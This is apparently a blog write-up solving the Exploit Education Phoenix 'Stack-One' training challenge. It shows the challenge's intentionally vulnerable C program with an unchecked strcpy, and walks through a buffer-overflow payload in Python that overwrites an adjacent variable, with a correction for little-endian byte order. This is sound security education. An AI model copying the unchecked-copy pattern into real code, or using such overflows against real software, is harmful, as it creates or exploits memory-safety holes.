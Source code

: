 ```yaml
---
title: Exploit Education > Phoenix > Stack-One
date: '2021-09-25'
draft: false
--- 
```


Stack-One is an ASCII challenge. It's described by the following C code:

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

When looking at the code, the following line catches the eye immediately:

```
strcpy(locals.buffer, argv[1]);
```

Our `main` function uses `strcpy` without validating our inputs size first! If we look at our `locals` struct (of which `buffer` is strcpy's destination), we can see that it also contains the volatile `changeme` variable.

```
struct {
    char buffer[64];
    volatile int changeme;
  } locals;
```

The goal of this challenge is to change `changeme` to `0x496c5962`. The solution to this exercise is similar to the one we used for `Stack-Zero`: We write 64 characters into `argv` at the start of the program and `0x496c5962` after that. We want to write the actual number `0x496c5962` into `changeme`, but our terminal only provides us the with possibility to enter characters. One solution for this is to convert `0x496c5962` into an ASCII string. Most ASCII characters fall into a range between 0 and 255, a.k.a 2 to the power of 8 possible characters, one one byte. Since a single hex digit stores 4 bit of information, we split `0x496c5962` into two packets for out character candidates we want to pipe into `stack-one` (after the padding). This leaves us with `0x49` `0x6c` `0x59` and `0x62`. Translate that into human readable ASCII characters and you get `IlYb`. 

Now we now that to solve this challenge, we need to pipe 64 characters into `argv` to pad the buffer into overflowing and `IlYb` to set `changeme` to `0x496c5962`. To do this in a more simpler way, we can yet again use python four our needs: 

``` 
# stack-one.py

padding = '0' * 64
changeme = 'IlYb'

print(padding + changeme)
```

Note that in python, instead of converting a known string of numbers to ASCII characters, we could just print bytes instead!

``` 
# stack-one.py

padding = '0' * 64
changeme = '\x49\x6c\x59\x62'

print(padding + changeme)
```

Calling `./stack-one $(python3 stack-one.py)` should print the message `Well done, you have successfully set changeme to the correct value` for us.

```
> ./stack-one $(python3 stack-one.py) 

> Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```

Huh. Seems like we did indeed change `changeme`, but it's value is *reversed*. To understand what's actually going on here, we have too take yet another look at `Stack-One`'s description:

*Having troubles? How does the endianness of the architecture affect the layout of how variables are laid out?*

Since we are on an x86 linux system, we know that we're using `little-endian`. The following image explains the difference in storage layout:

![Endianness](/assets/Endianness.png)

Values in `little-endian` seem to be *reversed* compared to how a human would naturally read them. To spare programmers the pain of having to write values reversed if their host system is little endian, compilers automatically look up if their system is little endian and emit any value in the approriate format. If we changed `changeme` to `0x496c5962` *inside* `stack-zero-c` and compiled it via `gcc`, our compiler would write it as `0x62596c49` *in memory*, pointing to its "end" `0x49` as the first value. 

Our mistake immediately becomes clear: We naturally write our target value 0x496c5962 from left to right into `stack-one`'s arguments. When its `main` function stores the `argv[1]` value in `locals.buffer`, causing a buffer overflow, it writes `0x496c5962` into `changeme`'s memory location *without any compiler intervention*. In memory, `changeme` reads `0x496c5962` but is read from right to left because our system is little-endian. To correct for this, we just have to reverse `0x496c5962` so it fits inside memory in the correct way.

This can be achieved by changing our little python snippet accordingly:
``` 
# stack-one.py

padding = '0' * 64;
changeme = 'IlYb'[::-1] #reverse this

print(padding + changeme)
```

Using our corrected script, we can see that we successfully solved this challenge!

```
> ./stack-one $(python3 stack-one.py) 

> Well done, you have successfully set changeme to the correct value
```